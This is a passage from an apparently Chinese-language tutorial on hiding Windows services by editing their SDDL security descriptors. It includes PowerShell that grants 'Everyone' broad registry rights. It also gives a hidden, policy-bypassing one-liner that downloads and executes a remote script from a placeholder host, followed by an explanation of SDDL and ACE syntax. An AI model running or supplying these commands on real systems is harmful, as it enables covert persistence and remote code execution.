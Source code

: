     $person = [System.Security.Principal.NTAccount]"Everyone"  
    $access = [System.Security.AccessControl.RegistryRights]"SetValue,CreateSubKey,EnumerateSubKeys,Notify,CreateLink,Delete,ReadPermissions,WriteKey,ExecuteKey,ReadKey,ChangePermissions,TakeOwnership"  
    $inheritance = [System.Security.AccessControl.InheritanceFlags]"None"  
    $propagation = [System.Security.AccessControl.PropagationFlags]"None"  
    $type = [System.Security.AccessControl.AccessControlType]"Allow"  
    $rule = New-Object System.Security.AccessControl.RegistryAccessRule( `  
    $person,$access,$inheritance,$propagation,$type)  
    $acl.AddAccessRule($rule)  
      
    Set-Acl $S $acl  
    }  
    

远程加载powershell脚本：

    
    
    powershell.exe -exec bypass -nop -w hidden -c "IEX((new-object net.webclient).downloadstring('http://xxx:8000/s.ps1'));Server-Sddl-Change -Name '.NET CLR Networking 3.5.0.0'"  
    

从下图可见已将值从该服务项中隐藏：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210915091806.png)

# SDDL字符串详解

安全描述符字符串格式（SDDL) 是用于存储或传输安全描述符中的信息的文本格式，更改SDDL即修改对象的访问权限。

如图为一个安全对象的SDDL：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210915091808.png)

如图可见其基本组成为：

    
    
    O:owner_sid   
    G:group_sid   
    D:dacl_flags(string_ace1)(string_ace2)... (string_acen)   
    S:sacl_flags(string_ace1)(string_ace2)... (string_acen)  
    

  *  **O: 对象所有者的SID**
  *  **G：对象主组的SID**
  *  **dacl_flags** ：应用于DACL的安全描述符控制标志
  *  **string_ace1** :访问控制列表ACE

对每个组成的详细描述可以参考：https://docs.microsoft.com/en-
us/windows/win32/secauthz/security-descriptor-string-format

访问控制列表ACE决定了哪个用户对它具有哪些权限，是DACL的具体规则，我们在服务中主要关注修改的就是DACL。

对于一个具体的ACE，其具有如下结构：

    
    
    (   
    ace_type;   
    ace_flags;   
    rights;   
    object_guid;   
    inherit_object_guid;   
    account_sid;   
    (resource_attribute)  
    )  
    